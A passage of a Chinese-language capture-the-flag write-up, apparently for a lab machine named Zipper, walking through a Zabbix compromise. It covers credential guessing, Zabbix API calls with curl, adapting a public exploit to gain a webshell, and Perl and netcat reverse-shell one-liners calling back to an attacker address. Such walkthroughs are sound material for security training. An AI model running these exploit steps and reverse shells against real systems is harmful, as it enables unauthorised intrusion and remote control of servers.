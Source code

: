use exploit/linux/misc/zabbix_server_exec
use exploit/unix/misc/zabbix_agent_exec

---

## writeup
log in as guest，在主页面发现了一个用户名Zipper，仔细查找网页内容，把zapper、Zipper、zipper添加到字典中进行爆破
![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-02-11/14.PNG)

## 拿到服务器参数
通过官网获得api使用方法：https://www.zabbix.com/documentation/3.0/manual/api

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-02-11/3.PNG)

```
curl -i -X POST -H 'Content-type:application/json' -d '{"jsonrpc":"2.0","method":"user.login","params":{ "user":"zapper","password":"zapper"},"auth":null,"id":0}' http://10.10.10.108/zabbix/api_jsonrpc.php
---
curl -i -X POST -H 'Content-type:application/json' -d '{"jsonrpc":"2.0","method":"host.get","params":{ "output": ["hostid","host"],"selectInterfaces":["interfaceid","ip"] },"auth":"注意修改这里的hash是通过上一条命令得到的","id":0}' http://10.10.10.108/zabbix/api_jsonrpc.php
```

## 修改exp并执行
通过api，查询到服务器参数，然后修改exp

```
searchsploit -m exploits/hp/webapps/39937.py

ZABIX_ROOT = 'http://10.10.10.108/zabbix'	### Zabbix IP-address
login = 'zapper'		### Zabbix login
password = 'zapper'	### Zabbix password
hostid = '10105'	### Zabbix hostid

python 39937.py 即可拿到webshell
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-02-11/1.PNG)

## 反弹docker虚拟机的shell到本地
```
参考pentestmonkey的reverse shell
反弹shell到本地。

nc -lnvp 1234
首先本地监听1234端口
---
webshell执行以下命令
方法一：perl -e 'use Socket;$i="10.10.14.10";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

方法二：rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1234 >/tmp/f
---
python -c 'import pty;pty.spawn("/bin/bash")'
反弹standard shell失败，没有找到python
---
SHELL=/bin/bash script -q /dev/null
获得startard tty
---
find / -name "*.txt" 2>/dev/null
本意是查找user.txt
```